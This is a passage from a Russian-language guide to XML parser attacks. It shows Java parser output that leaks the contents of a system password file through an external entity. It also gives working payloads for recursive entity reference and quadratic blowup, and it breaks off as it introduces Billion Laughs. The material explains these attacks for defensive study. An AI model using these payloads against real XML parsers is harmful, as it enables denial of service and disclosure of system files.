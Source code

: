 ```java
   fr.close();
  } catch (Exception e) {
   e.printStackTrace();
  }
 }
}

```

Предыдущий код выдает следующий результат:

```bash
$ java parseDocument
<!DOCTYPE contacts SYSTEM "contacts.dtd">John### User Database
...
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
```

#### Рекурсивная ссылка на объект

**Когда определение элемента `A` является другим элементом `B`, и этот элемент `B` определен как элемент `A`, эта схема описывает циклическую ссылку между элементами:**

```xml
<!DOCTYPE A [
 <!ELEMENT A ANY>
 <!ENTITY A "<A>&B;</A>">
 <!ENTITY B "&A;">
]>
<A>&A;</A>
```

#### Квадратичное увеличение

**Вместо определения множества небольших, глубоко вложенных объектов злоумышленник в этом сценарии определяет один очень большой объект и обращается к нему столько раз, сколько возможно, что приводит к квадратичному расширению (*O(n ^ 2)*).**

Результатом следующей атаки будет 100 000 x 100 000 символов в памяти.

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY A "AAAAA...(a 100.000 A's)...AAAAA">
]>
<root>&A;&A;&A;&A;...(a 100.000 &A;'s)...&A;&A;&A;&A;&A;</root>
```

#### Миллиард смешков (Billion Laughs)

**Когда синтаксический анализатор XML попытается разрешить внешние объекты, включенные в приведенный ниже код, это приведет к тому, что приложение начнет использовать всю доступную память, пока процесс не завершится сбоем.** Это пример XML-документа со встроенной схемой [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp), включающей атаку:
